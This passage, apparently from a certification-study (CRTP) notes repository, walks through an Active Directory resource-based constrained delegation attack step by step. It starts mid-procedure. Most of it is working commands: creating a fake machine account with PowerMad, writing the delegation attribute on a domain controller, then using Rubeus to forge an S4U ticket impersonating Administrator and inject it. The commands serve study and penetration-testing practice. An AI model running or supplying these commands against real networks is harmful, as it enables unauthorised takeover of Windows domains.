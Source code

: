 Now, if we notice that the HRmanager user in the IdentityReferenceName field contains the Write Property permission on the Domain Controller device in the ObjectDN field (OU)
4. Now download [PowerMad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) to create a fake computer
5. Load PowerMad
```
Import-Module .\powermad.ps1
```
6. create a fake pc which has a password `"123"`
```
New-MachineAccount -Domain cyber.local -MachineAccount dude -Password (ConvertTo-SecureString '123' -AsPlainText -Force) -Verbose
```
7. Now we need to extract the private SID on the fake device using this command
```
Get-NetComputer dude | select objectsid
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/c6e7d638-7824-4841-a3e0-6a149bf2dd40)

8. Now that we have extracted the private SID on the fake device, we will execute these commands while replacing the private SID on the fake device.
```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-4117163453-3728762355-2024759166-1601)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)
```
9. Now we will create a new property for the target device called msds-allowedtoactonbehalfofotheridentity and assign it the value of the private SID in the fake device
```
Get-netcomputer jehaddc.m3c.local | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```
10. Now I will load the Rubeus tool and we will execute this command so that it gives us an AES256 encrypted copy of the private password on the fake device.
```
.\Rubeus.exe hash /password:123 /user:dude$  /domain:cyber.local
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/a91bd270-d277-411d-b9b8-26364961813a)

11. Now we will execute this command to obtain the TGS of the ldap service, since the target device is the Domain Controller (DC).
```
.\Rubeus.exe s4u /domain:cyber.local /dc:JehadDC.cyber.local /user:dude$ /ptt /aes256:5B9C740C2E833C237562871A4B3C3B7FF7839D48C3CBB3CBB152E2E82C981928  /impersonateuser:Administrator /msdsspn:ldap/jehaddc.cyber.local
```
12. Now, after executing the previous command, we will confirm whether the TGS was injected into the memory or not through this command.
```
klist
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/d18aba56-540b-42ba-b2c7-29eb8764682b)
